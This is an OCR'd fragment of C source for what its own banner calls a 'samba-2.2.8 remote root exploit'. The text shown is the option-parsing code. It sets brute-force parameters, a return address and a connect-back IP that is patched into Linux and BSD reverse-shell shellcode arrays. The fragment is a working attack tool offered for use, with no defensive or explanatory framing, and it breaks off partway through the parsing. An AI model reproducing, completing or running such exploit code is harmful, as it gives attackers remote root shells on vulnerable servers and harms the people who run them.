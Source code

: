             unsigned long BRUTE_DELAY       = 100000;
            unsigned long ret               = 0x0;
            unsigned long MAX_CHILDS        = 40;
            unsigned long STEPS             = 300;

            struct hostent          *he;

            fprintf(stdout, "samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)\n"
                            "--------------------------------------------------------------\n");

            while((opt = getopt(argc,argv,"b:B:c:C:d:fp:r:sS:t:v")) !=EOF) {
                    switch(opt)
                    {
                            case 'b':
                                    brute = atoi(optarg);
                                    if ((brute < 0) || (brute > 3)) {
                                            fprintf(stderr, "Invalid platform.\n\n");
                                            return -1;
                                    }
                                    break;
                            case 'B':
                                    STEPS = atoi(optarg);
                                    if (STEPS == 0) STEPS++;
                                    break;
                            case 'c':
                                    sscanf(optarg, "%d.%d.%d.%d", &ip1, &ip2, &ip3, &ip4);
                                    connectback = 1;

                                    if (ip1 == 0 || ip2 == 0 || ip3 == 0 || ip4 == 0) {
                                            fprintf(stderr, "Invalid IP address.\n\n");
                                            return -1;
                                    }

                                    linux_connect_back[33] = ip1; bsd_connect_back[24] = ip1;
                                    linux_connect_back[34] = ip2; bsd_connect_back[25] = ip2;
                                    linux_connect_back[35] = ip3; bsd_connect_back[26] = ip3;
                                    linux_connect_back[36] = ip4; bsd_connect_back[27] = ip4;

                                    break;
                            case 'C':
                                    MAX_CHILDS = atoi(optarg);
                                    if (MAX_CHILDS == 0) {
                                            fprintf(stderr, "Invalid number of childs.\n");
                                            return -1;
                                    }

                                    if (MAX_CHILDS > 99) {
                                            fprintf(stderr, "Too many childs, using 99. \n");
                                            MAX_CHILDS = 99;
                                    }

                                    break;
                            case 'd':
                                    BRUTE_DELAY = atoi(optarg);
                                    break;
                            case 'f':
                                    force = 1;
                                    break;
                            case 'p':
                                    port = atoi(optarg);
                                    if ((port <= 0) || (port > 65535)) {
                                            fprintf(stderr, "Invalid port.\n\n");
                                            return -1;
                                    }
                                    break;
                            case 'r':
                                    ret = strtoul(optarg, &optarg, 16);